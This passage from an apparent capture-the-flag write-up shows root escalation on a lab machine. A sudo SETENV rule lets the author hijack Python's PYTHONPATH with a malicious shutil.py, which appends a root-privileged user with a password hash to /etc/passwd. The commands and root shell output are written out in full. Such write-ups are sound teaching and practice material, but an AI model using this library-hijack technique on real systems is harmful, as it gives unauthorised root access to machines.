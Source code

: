 Additionally, the SETENV in the sudoers file allows us to pass a new PYTHONPATH environment variable to the sudo command, making this even easier. We'll add the following script to /var/tmp to add a new user to /etc/passwd (which we'll want to clean up quickly after, so as to not ruin anyone else's experience with the machine):

NOTE: PYTHONPATH is an environment variable that tells Python to check a certain directory first, before checking default locations. 

shutil.py:

```
#!/bin/python3

import os

def make_archive(x, y, z):
        os.system('echo firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash >> /etc/passwd')
```

Now, we just need to run the sudo command, passing a new PYTHONPATH environment variable to it:

```
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh

Choose Option 6
```

Now, we can su to firefart, giving ourselves root!

```
su firefart
Password: firefart

root@admirer:/var/tmp# whoami
root
```

Voila, root!

Note: It's usually better to return a reverse shell, so we don't have to modify /etc/passwd, but I had some issues with the box returning a stable shell. Now we just need to clean up after ourselves and delete the last line from /etc/passwd that we appended!

